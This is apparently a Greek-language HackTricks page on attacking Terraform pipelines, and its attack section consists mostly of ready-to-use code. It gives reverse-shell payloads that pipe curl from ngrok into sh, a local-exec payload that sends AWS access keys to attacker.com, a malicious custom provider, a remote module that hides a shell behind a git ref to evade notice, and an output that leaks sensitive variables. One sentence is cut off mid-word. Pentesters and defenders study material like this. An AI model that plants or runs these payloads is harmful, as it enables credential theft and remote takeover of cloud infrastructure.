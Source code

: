 # Ασφάλεια του Terraform

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

[Από τα έγγραφα: ](https://developer.hashicorp.com/terraform/intro)

Το HashiCorp Terraform είναι ένα εργαλείο **υποδομής ως κώδικα** που σας επιτρέπει να ορίσετε τόσο **πόρους στο cloud όσο και on-prem** σε ανθρωποαναγνώσιμα αρχεία διαμόρφωσης που μπορείτε να εκδόσετε, να επαναχρησιμοποιήσετε και να μοιραστείτε. Στη συνέχεια, μπορείτε να χρησιμοποιήσετε ένα συνεπές ροή εργασίας για να παρέχετε και να διαχειρίζεστε όλη την υποδομή σας κατά τη διάρκεια του κύκλου ζωής της. Το Terraform μπορεί να διαχειριστεί συστατικά χαμηλού επιπέδου όπως υπολογιστικούς πόρους, αποθήκευση και πόρους δικτύωσης, καθώς και συστατικά υψηλού επιπέδου όπως καταχωρήσεις DNS και λειτουργίες SaaS.

### Πώς λειτουργεί το Terraform;

Το Terraform δημιουργεί και διαχειρίζεται πόρους σε πλατφόρμες cloud και άλλες υπηρεσίες μέσω των διεπαφών προγραμματισμού εφαρμογών (APIs) τους. Οι παροχείς επιτρέπουν στο Terraform να λειτουργεί με σχεδόν οποιαδήποτε πλατφόρμα ή υπηρεσία με προσβάσιμο API.

![](<../.gitbook/assets/image (33).png>)

Η HashiCorp και η κοινότητα του Terraform έχουν ήδη γράψει **περισσότερους από 1700 παροχείς** για τη διαχείριση χιλιάδων διαφορετικών τύπων πόρων και υπηρεσιών, και αυτός ο αριθμός συνεχίζει να αυξάνεται. Μπορείτε να βρείτε όλους τους δημόσια διαθέσιμους παροχείς στο [Terraform Registry](https://registry.terraform.io/), συμπεριλαμβανομένων των Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog και πολλών άλλων.

Η βασική ροή εργασίας του Terraform αποτελείται από τρεις στάδια:

* **Εγγραφή:** Ορίζετε πόρους, οι οποίοι μπορεί να βρίσκονται σε πολλαπλούς παρόχους cloud και υπηρεσίες. Για παράδειγμα, μπορείτε να δημιουργήσετε μια διαμόρφωση για να αναπτύξετε μια εφαρμογή σε εικονικές μηχανές σε ένα δίκτυο Virtual Private Cloud (VPC) με ομάδες ασφαλείας και έναν ισορροπητή φορτίου.
* **Σχεδιασμός:** Το Terraform δημιουργεί ένα σχέδιο εκτέλεσης που περιγράφει την υποδομή που θα δημιουργήσει, ενημερώσει ή καταστρέψει με βάση την υπάρχουσα υποδομή και τη διαμόρφωσή σας.
* **Εφαρμογή:** Μετά από έγκριση, το Terraform εκτελεί τις προτεινόμενες λειτουργίες με τη σωστή σειρά, σεβόμενο τυχόν εξαρτήσεις πόρων. Για παράδειγμα, εάν ενημερώσετε τις ιδιότητες ενός VPC και αλλάξετε τον αριθμό των εικονικών μηχανών σε αυτό το VPC, το Terraform θα δημιουργήσει ξανά το VPC πριν αλλάξει τον αριθμό των εικονικών μηχανών.

![](<../.gitbook/assets/image (81).png>)

## Εργαστήριο Terraform

Απλά εγκαταστήστε το terraform στον υπολογιστή σας.

Εδώ έχετε έναν [οδηγό](https://learn.hashicorp.com/tutorials/terraform/install-cli) και εδώ έχετε τον [καλύτερο τρόπο για να κατεβάσετε το terraform](https://www.terraform.io/downloads).

## RCE στο Terraform

Το Terraform **δεν έχει μια πλατφόρμα που εκθέτει μια ιστοσελίδα ή μια δικτυακή υπηρεσία** που μπορούμε να απαριθμήσουμε, επομένως, ο μ
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Χρήση προσαρμοσμένου παροχέα

Ένας επιτιθέμενος μπορεί να στείλει έναν [προσαρμοσμένο παροχέα](https://learn.hashicorp.com/tutorials/terraform/provider-setup) στο [Κατάλογο του Terraform](https://registry.terraform.io/) και στη συνέχεια να τον προσθέσει στον κώδικα του Terraform σε ένα feature branch ([παράδειγμα από εδώ](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Ο πάροχος κατεβάζεται στο `init` και θα εκτελέσει το κακόβουλο κώδικα όταν εκτελεστεί το `plan`.

Μπορείτε να βρείτε ένα παράδειγμα στο [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Χρήση εξωτερικής αναφοράς

Και οι δύο αναφερόμενες επιλογές είναι χρήσιμες, αλλά όχι πολύ αόρατες (η δεύτερη είναι πιο αόρατη, αλλά πιο περίπλοκη από την πρώτη). Μπορείτε να πραγματοποιήσετε αυτήν την επίθεση ακόμα και με έναν **πιο αόρατο τρόπο**, ακολουθώντας αυτές τις προτάσεις:

* Αντί να προσθέσετε το αντίστροφο κέλυφος (rev shell) απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το αντίστροφο κέλυφος (rev shell):
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα του αντιστρόφου κελύφους στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Στο εξωτερικό πόρο, χρησιμοποιήστε το χαρακτηριστικό **ref** για να κρύψετε τον **κώδικα του αντιστρόφου κελύφους του terraform σε ένα κλαδί** μέσα στο αποθετήριο, κάτι σαν αυτό: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Εφαρμογή Terraform

Η εφαρμογή του Terraform θα εκτελεστεί για να εφαρμοστούν όλες οι αλλαγές, μπορείτε επίσης να το καταχραστείτε για να λάβετε RCE εισάγοντας **ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο φορτίο όπως τα παρακάτω τελειώνει στο αρχείο `main.tf`.
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με έναν **πιο αόρατο τρόπο χρησιμοποιώντας εξωτερικές αναφορές**.

## Απορροφημένες Μυστικές

Μπορείτε να έχετε **απορροφημένες τιμές που χρησιμοποιούνται από το terraform να διαρρέουν** εκτελώντας την εντολή `terraform apply` προσθέτοντας στο αρχείο terraform κάτι σαν:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Εργαλεία Ελέγχου

* [**tfsec**](https://github.com/aquasecurity/tfsec): Το tfsec χρησιμοποιεί στατική ανάλυση του κώδικα terraform για να εντοπίσει πιθανές λανθασμένες ρυθμίσεις.
* [**terascan**](https://github.com/tenable/terrascan): Το Terrascan είναι ένας αναλυτής κώδικα για το Infrastructure as Code.

## Αναφορές

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
